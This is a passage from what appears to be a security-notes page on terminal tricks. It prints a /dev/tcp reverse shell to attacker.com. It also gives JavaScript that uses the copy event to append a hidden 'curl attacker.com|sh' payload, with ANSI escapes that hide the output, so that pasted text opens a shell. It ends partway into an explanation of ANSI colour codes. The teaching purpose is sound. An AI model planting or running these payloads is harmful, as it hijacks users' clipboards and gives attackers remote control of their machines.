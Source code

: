 ```bash
bash -c "script -c 'bash -i' /dev/null </dev/tcp/attacker.com/1337 >&0 2>&1"
```

In order to cleanly deliver such a payload from a website, the [copy event](https://developer.mozilla.org/en-US/docs/Web/API/Element/copy_event) can be used to overwrite anything the user copies:

<pre class="language-html"><code class="lang-html">&#x3C;script>
  const PAYLOAD = `${"\n".repeat(6)}
<strong> curl -s attacker.com|sh&#x26;disown
</strong> echo -e '\\x1b[9A\\x1b[J'
`;

  document.addEventListener("copy", function (e) {
    var text = window.getSelection().toString();
    // Add payload to all copied strings
    e.clipboardData.setData("text/plain", text + PAYLOAD);
    e.preventDefault();
  });
&#x3C;/script>
</code></pre>

<figure><img src="../.gitbook/assets/J0R1AN-1712098522667913454-ezgif.com-video-to-gif-converter.gif" alt=""><figcaption><p>Proof of Concept in action causing an invisible reverse shell</p></figcaption></figure>

## Terminal Colors

Terminals use so-called "ASNI escape sequences" to format text, including colors. They are special sequences of characters that when printed, will alter the text that comes after it.&#x20;

These codes always start with an ESC character, `\x1b` in ASCII. Then for **colors**, you use a `[`, followed by some special code, and finally an `m` character. This special code in between determines what color is displayed.

* `30`-`37` (normal) & `90`-`97` (bright): Foreground color
* `40`-`47` (normal) & `100`-`107` (bright): Background color
* `0`: Reset

See the following table for a list of all these colors:
